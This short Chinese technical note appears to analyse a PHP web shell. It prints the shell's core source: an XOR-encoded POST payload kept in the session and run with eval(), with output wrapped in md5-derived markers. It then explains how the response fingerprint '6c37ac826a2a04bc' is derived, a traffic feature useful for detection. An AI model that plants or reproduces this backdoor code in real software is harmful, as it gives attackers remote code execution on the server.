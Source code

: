 ```php
$key='3c6e0b8a9c15224a';   # key的md5前16位
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

- 指纹`6c37ac826a2a04bc`的生成过程：

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d

# key的md5取前16位，即3c6e0b8a9c15224a
$key='3c6e0b8a9c15224a';   # key的md5前16位

# pass和key拼接取后16位，即6c37ac826a2a04bc
echo substr(md5($pass.$key),16);
```

流量特征：

- 每一个响应流量最后都带有`6c37ac826a2a04bc`。

![img](./images/202211091046532.png)